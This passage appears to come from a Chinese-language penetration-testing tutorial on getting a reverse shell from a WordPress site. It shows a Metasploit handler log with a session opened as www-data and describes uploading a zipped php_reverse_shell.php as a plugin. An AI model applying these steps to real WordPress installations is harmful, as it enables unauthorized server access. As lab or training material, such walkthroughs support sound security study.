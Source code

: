更新index.php后访问wordpress首页即可接收到shell

```plain
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:9999
[*] Command shell session 10 opened (192.168.0.106:9999 -> 192.168.0.106:58096) at 2024-01-22 20:54:00 +0800


Shell Banner:
Linux 2036cf3ffda3 6.5.13-orbstack-00121-ge428743e4e98 #1 SMP Wed Dec 27 10:22:46 UTC 2023 aarch64 aarch64 aarch64 GNU/Linux
 12:53:55 up  1:07,  0 users,  load average: 1.32, 1.06, 0.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

### 方法2、zip上传

将php\_reverse\_shell.php压缩为zip 在插件安装页面上传zip  
[![](assets/1706513536-764c3d4fd32583cc430a32b1bd7cfcbe.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928820683-3560e5f2-fcf7-4542-b23e-e7868e6ee7fb.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=613&id=u97f34d8a&originHeight=1226&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=245185&status=done&style=none&taskId=u6d0bb817-7940-4980-9f3d-ea098eddbc7&title=&width=1547)  
建立监听 稍等片刻即可获得shell[![](assets/1706513536-b77a485d8dd309c04806bea15eec3da0.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928908230-f785138f-35b6-45f2-8e4c-e83a9b9cfd85.png#averageHue=%2336393f&clientId=uc39f9627-399e-4&from=paste&height=380&id=u36cc8d33&originHeight=760&originWidth=2350&originalType=binary&ratio=2&rotation=0&showTitle=false&size=253609&status=done&style=none&taskId=u42c88f76-4fc3-424e-8e1f-ecd741c0f65&title=&width=1175)

